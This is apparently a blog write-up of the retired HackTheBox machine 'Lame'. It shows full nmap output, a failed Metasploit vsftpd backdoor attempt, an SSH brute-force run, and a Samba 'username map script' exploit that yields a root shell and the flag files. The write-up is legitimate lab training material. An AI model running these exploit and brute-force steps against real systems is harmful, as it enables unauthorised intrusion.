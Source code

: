 ```yaml
---
layout: post
title: HackTheBox - Lame (Retired)
---
```



## Setup
Add the line ```10.10.10.3	lame.htb``` into ```/etc/hosts```.


## Enumeration
```
root@kali:~/HackTheBox/lame# nmap lame.htb -T4 -p- -A -oN nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-19 16:26 EDT
Nmap scan report for lame.htb (10.10.10.3)
Host is up (0.043s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.11
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP|broadband router|remote management|printer|general purpose|specialized
Running (JUST GUESSING): Linux 2.4.X|2.6.X (92%), Arris embedded (92%), Control4 embedded (92%), Dell embedded (92%), Linksys embedded (92%), Tranzeo embedded (92%), Xerox embedded (92%), Citrix XenServer 5.X (92%)
OS CPE: cpe:/o:linux:linux_kernel:2.4.30 cpe:/h:dell:remote_access_card:6 cpe:/h:linksys:wet54gs5 cpe:/h:tranzeo:tr-cpq-19f cpe:/h:xerox:workcentre_pro_265 cpe:/o:linux:linux_kernel:2.4 cpe:/o:linux:linux_kernel:2.6.18 cpe:/o:citrix:xenserver:5.5
Aggressive OS guesses: OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Arris TG862G/CT cable modem (92%), Control4 HC-300 home controller (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Linux 2.4.27 (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.27 - 2.6.28 (92%), Linux 2.6.8 - 2.6.30 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3d00h56m14s, deviation: 2h49m44s, median: -3d02h56m16s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-03-16T13:32:26-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   44.36 ms 10.10.14.1
2   44.43 ms lame.htb (10.10.10.3)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 188.20 seconds
```

Highlights:
 
> 21/tcp   open  ftp         vsftpd 2.3.4
> 22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
> 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
> 445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
> 3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

 * Anonymous ftp available
 * ssh is open, so we should try a brute force attack to see if the SIEM catches us or if they have weak controls
 * samba instances
 
### FTP 
I first try FTP with anonymous:anonymous credentials. Anonymous access should not be allowed. Nothing immediately stands out though and nothing is visible in the directory. However, malware could be uploaded or ```put```.

Google tells us that there is a Backdoor Command Execution for vsftpd 2.3.4. But, the vulnerability appears patched.

Let's give it a shot.

```
msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST lame.htb
RHOST => lame.htb
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  lame.htb         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

No luck with FTP.

 
### SSH
Since OpenSSH is on version 4.7, let's try an [SSH brute-force](https://charlesreid1.com/wiki/Metasploitable/SSH/Exploits).

```
msf5 > use auxiliary/scanner/ssh/ssh_login
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS lame.htb
RHOSTS => lame.htb
msf5 auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
USERPASS_FILE => /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set VERBOSE false
VERBOSE => false
msf5 auxiliary(scanner/ssh/ssh_login) > run

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

No active sessions.

```

We could try another wordlist, but let's come back to this later.

### Samba
Let's look up Samba smbd 3.0.20. Rapid7 has a "username map script" Command Execution [here](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script)
> This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

```
msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > set RHOSTS lame.htb
RHOSTS => lame.htb
```
![root](/images/htb/lame/1.png)

```
whoami
root
arp -a
? (10.10.10.2) at 00:50:56:B9:BF:FF [ether] on eth0
route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
10.10.10.0      *               255.255.255.0   U     0      0        0 eth0
default         10.10.10.2      0.0.0.0         UG    100    0        0 eth0
cat /home/makis/user.txt
69454a937{censored}ea00acd2e84c5
cat /root/root.txt
92caac3be1{censored}721348a4e9df
```
